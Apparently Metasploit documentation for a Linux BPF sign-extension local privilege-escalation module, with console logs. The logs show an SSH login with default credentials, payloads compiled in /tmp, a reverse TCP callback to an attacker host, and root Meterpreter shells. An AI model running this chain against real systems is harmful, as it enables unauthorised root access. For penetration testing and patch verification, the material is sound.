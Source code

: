 ## Vulnerable Application

This module exploits the Berkeley Packet Filter in the Linux kernel prior to 4.13.0,
which contains a vulnerability where it may improperly perform sign extentension.
This can be utilized to priv escalate.  However, this module's offsets and
other parameters have only been set and tested against the 4.4.0-116 kernel.

This module has been successfully tested on:

  * Ubuntu 16.04 with the 4.4.0-116 kernel
  * Linux Mint 18 with the 4.4.0-116-generic kernel

### Meterpreter Exception

Due to a bug, this exploit can only be run on a non-meterpreter shell.
When run on meterpreter, or a shell spawned by meterpreter, the error `error: Invalid argument`
is thrown by the executable.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
### Linux Mint 18

  ```
  msf5 exploit(multi/handler) > use exploit/linux/local/bpf_sign_extension_priv_esc 
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > check
  
  [!] SESSION may not be compatible with this module.
  [+] Kernel confirmed vulnerable
  [*]  The target appears to be vulnerable.
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run
  
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing UVQYvBTJ to /tmp/UVQYvBTJ.c
  [*] Max line length is 65537
  [*] Writing 7773 bytes in 1 chunks of 26765 bytes (octal-encoded), using printf
  [*] Writing ljJApCaK to /tmp/ljJApCaK
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 845 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 172.16.191.207
  [*] task_struct = ffff88003ce84600
  [*] uidptr = ffff88003cc46f04
  [*] spawning root shell
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.207:48276) at 2018-03-24 22:46:58 -0400
  [+] Deleted /tmp/UVQYvBTJ.c
  [+] Deleted /tmp/UVQYvBTJ
  [+] Deleted /tmp/ljJApCaK
  [!] This exploit may require manual cleanup of '/tmp/UVQYvBTJ.c' on the target
  [!] This exploit may require manual cleanup of '/tmp/UVQYvBTJ' on the target
  [!] This exploit may require manual cleanup of '/tmp/ljJApCaK' on the target
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.207
  OS           : LinuxMint 18 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
